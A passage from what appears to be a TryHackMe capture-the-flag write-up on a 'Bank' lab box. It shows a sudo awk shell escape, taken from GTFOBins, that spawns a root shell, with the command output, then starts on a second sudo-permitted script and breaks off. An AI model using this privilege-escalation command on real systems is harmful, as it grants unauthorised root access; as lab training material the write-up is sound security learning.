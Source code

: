 **Accord to [GTFOBins](https://gtfobins.github.io/gtfobins/awk/#shell), we can escalate to root via:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/TryHackMe/Bank-CTF/images/Pasted%20image%2020221229004758.png)

**Let's do that:**
```
cat@ubuntu:~$ sudo awk 'BEGIN {system("/bin/bash")}'
root@ubuntu:~# whoami;hostname;id;ip a
root
ubuntu
uid=0(root) gid=0(root) groups=0(root)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:72:4d:ef:1b:1f brd ff:ff:ff:ff:ff:ff
    inet 10.10.53.4/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::72:4dff:feef:1b1f/64 scope link 
       valid_lft forever preferred_lft forever
```

I'm root! :D

### 3.5.5. cat to root

In user `cat`'s `sudo` permission, we can run `/home/patrick/.bank_work/script.sh` as root without password.

**Let's run that script:**
```
cat@ubuntu:~$ sudo /home/patrick/.bank_work/script.sh
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~

		***Hello, please enter the numerical hour
			for the time you want to investigate. 
		***Followed by AM or PM 
		***The Four digit date
		***And lastly the game.
	***These are the games: 
BlackJack
Roullette
TexasHoldEm



Example: 
8 AM 0310 BlackJack

 [!!]This is case sensitive.


~#8 AM 0310 BlackJack
~~~~~~~~~~~~~~~~~~~~~~~
awk: cannot open script.awk (No such file or directory)
~~~~~~~~~~~~~~~~~~~~~~~
```
